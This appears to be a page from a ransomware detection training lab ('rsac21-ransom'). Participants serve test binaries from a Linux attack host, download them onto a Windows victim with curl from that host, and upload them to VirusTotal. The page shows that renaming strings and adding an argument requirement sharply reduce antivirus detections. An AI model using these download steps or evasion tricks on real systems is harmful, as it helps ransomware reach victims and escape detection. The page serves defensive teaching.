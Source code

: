 # Detection

## Host the "evil" files.

1. Make sure you are connected to the NIX-ATTACK-HOST-#
2. First record your IP address on the eth0 interface. `ip addr`
3. Ensure you are still in the "notransomware" directory. Change directories if necesary. `cd /home/ubuntu/rsac21-ransom`
4. Run the following command to serve the files for download.
`python3 -m http.server`

## Update Lab Files
1. Now it is time to swap to the WINDOWS-VICTIM-HOST. Press ctrl+shift+alt(command+ctrl+shift). Click the drop down in the top left of the side menu and select the WIN-VICTIM-HOST connection.
2. Open a administrative command prompt by clicking the search icon (magnifying glass) in the bottom left.
3. Type cmd and click on the command prompt desktop app icon when it appears.
4. Change directories to the lab files on the desktop. `cd c:\Users\Administrator\Desktop\rsac21-ransom`
5. Update the files from the git repo.  `git pull`

## Download the "evil" files.

1. Do some pre-flight checks, you can access all the required programs by clicking the search bar in the bottom left and typing their respective names. When they appear in the start menu results, double click them.
```
- Is a folder on the desktop called "rsac21-ransom" (If not, launch a command prompt and run `git clone `)
- Is firefox installed? (If not, launch a command prompt and run `choco install firefox`)
```
2. Open a command prompt by clicking the search icon in the bottom left and typing `cmd`. The 
4. Run the following command with my new favorite living off the land binary for dowloading remote files. 
`curl http://<NIX-ATTACK-HOST>:8000/test1.exe -o test1.exe`
5. Once you have this worked out, download all the files you created on the linux attack host just changing the file names.
  - test1.exe
  - test264.exe
  - test232.exe
  - test332-arg.exe
6. This is your first detection example...no alerts from windows defender.

## What does virust total have to say about all this?

1. Open firefox and browse to virus total.  www.virustotal.com
2. Click the **choose a file** optiont to upload for analysis.
3. Browse to C:\Users\Administrator\Desktop\rsac-ransom and select test1.exe.
4. Wait for the analysis.
> Remember this is was the file that you saved as is and compiled in the amd64 architecture. Having just ~6(may increase as more people upload) detections for what will effectively encrypt files in your homedrive and attempt to connect to a server, while dropping a key and ransom note is pretty scary in itself.
5. Now Click the upload button in the top left beside the search bar and upload the second sample test264.exe.
> This was the sample you simply replaced all occurances of the word encrypt with another word. This now comes back  detections. Putting on show case that changing common words and text associated with malware inside binaries will trick a number of detections in iteslef. Not to mention this changes zero function of the binary while completely changing the hash.
6. Finally, upload the 32bit version of this sample. Same sample as before, but compliled for the more commonly execuable 32bit architecture.
> By nature of the architecture you will see many more detections now, many of the static and behavioral analysis tools are tuned toward 32bit binaires and instructions.
7. All that's great but now upload the final sample where you added the argument requirement for it to run. Test232-args.exe.
> You will notice nearly all the detections go away now, even in the 32bit architecture. All of that work spent on creating different types of anti analysis techiniques and simply adding an argument requirement will fool nearly every auto analysis capability out there, making the detection solely reliant on strings.

Let's return to talk about what just happened and get ready to move on to live reponse.

[Live Response](response.md)
